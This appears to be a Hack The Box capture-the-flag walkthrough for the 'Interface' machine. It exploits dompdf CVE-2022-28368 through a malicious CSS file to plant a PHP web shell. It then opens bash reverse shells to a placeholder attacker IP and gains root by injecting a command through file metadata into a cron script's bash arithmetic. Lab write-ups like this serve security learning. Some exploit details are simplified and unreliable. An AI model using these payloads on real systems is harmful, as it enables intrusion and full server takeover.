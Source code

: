 🖥️ HTB: Interface – Writeup / Walkthrough

Difficulty: Medium
Tags: dompdf CVE-2022-28368, RCE, SSTI, Bash Arithmetic Injection, Reverse Shell

🧠 TL;DR

    📄 Exploited dompdf 1.2.0 (CVE-2022-28368) to get RCE via malicious CSS

    🐚 Gained initial access as www-data

    🧮 Abused Bash Arithmetic Injection in a cron-executed script for privilege escalation

🔎 Enumeration

Initial nmap scan revealed:

22/tcp open  ssh
80/tcp open  http

Website on port 80 was static and didn’t offer anything juicy at first glance.

However, inspecting headers in Burp Suite, I noticed a Content-Security-Policy referring to another domain:

prd.rendering-api.interface.htb

📌 Added to /etc/hosts:

echo "<TARGET_IP> prd.rendering-api.interface.htb" | sudo tee -a /etc/hosts

Navigated to the new subdomain — received a 404 error, but that meant it was live. Time to go digging.
🧪 Fuzzing the API

Used ffuf to enumerate paths:

ffuf -u http://prd.rendering-api.interface.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 0

Discovered /api.

Drilled further into /api and found /api/html2pdf — which responded with missing parameters when hit.

Suspected a POST API — saved a basic POST template in html2john.req and tested param names using:

ffuf -request html2john.req -request-proto http -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt

🎯 Found parameter: html

Sending this gave back a PDF response — but corrupted. Found the HTTP headers were included in the response, stripped them manually.

Ran exiftool on the PDF and discovered:

Producer: dompdf 1.2.0

💥 Exploiting dompdf (CVE-2022-28368)

The version was vulnerable to RCE via crafted CSS.

Referencing:

    https://github.com/positive-security/dompdf-rce

    https://positive.security/blog/dompdf-rce

This vuln allows CSS to drop a .php file in dompdf’s font cache directory, which is later executed on the server.

🧰 Created a malicious style.css:

@font-face {
  font-family: 'Exploit';
  src: url('http://<attacker-ip>/exploit.php');
}

And exploit.php:

<?php system($_GET['cmd']); ?>

Linked CSS in the POST request:

{
  "html": "<link rel='stylesheet' href='http://<attacker-ip>/style.css'>"
}

Intercepted the request to catch the GET request for exploit.php — confirmed it's working.
🐚 Gaining a Reverse Shell

Replaced exploit.php payload with a simple bash one-liner:

<?php system("bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'"); ?>

Started listener:

nc -lvnp 4444

Triggered the payload and got a reverse shell as www-data.
📦 Privilege Escalation

Uploaded pspy64 to enumerate cron jobs:

wget http://<attacker-ip>/pspy64
chmod +x pspy64
./pspy64

🕵️ Observed recurring execution of cleancache.sh via bash.

Inspected the script. It looked normal, but included this:

(( rm -rf /tmp/CleanMe ))

That's arithmetic evaluation, not standard command exec. Looked deeper and found it was vulnerable to bash arithmetic injection.

Referenced:

    NCC Group Blog

🔧 Exploiting Bash Arithmetic Injection

Steps:

    Created malicious shell.sh:

#!/bin/bash
bash -i >& /dev/tcp/<attacker-ip>/5555 0>&1

    Made it executable:

chmod +x shell.sh

    Created dummy file CleanMe

touch CleanMe

    Used exiftool to inject metadata:

exiftool -Producer='$(/tmp/shell.sh)' CleanMe

    Moved CleanMe to /tmp:

mv CleanMe /tmp/

    Listener ready:

nc -lvnp 5555

Waited… then 🔥 rooted the box.
🏁 Flags

    user.txt ✔️

    root.txt ✔️

🧬 Git Commit Message

git commit -m "📄 HTB: Interface – dompdf RCE (CVE-2022-28368) ➜ bash arithmetic injection → root shell"

🔚 Final Thoughts

    dompdf-based RCEs are often overlooked — always check PDF generators for metadata.

    SSTI and CSS payload chains can lead to stealthy exploitation paths.

    Bash arithmetic injection is a rare but powerful privesc technique.
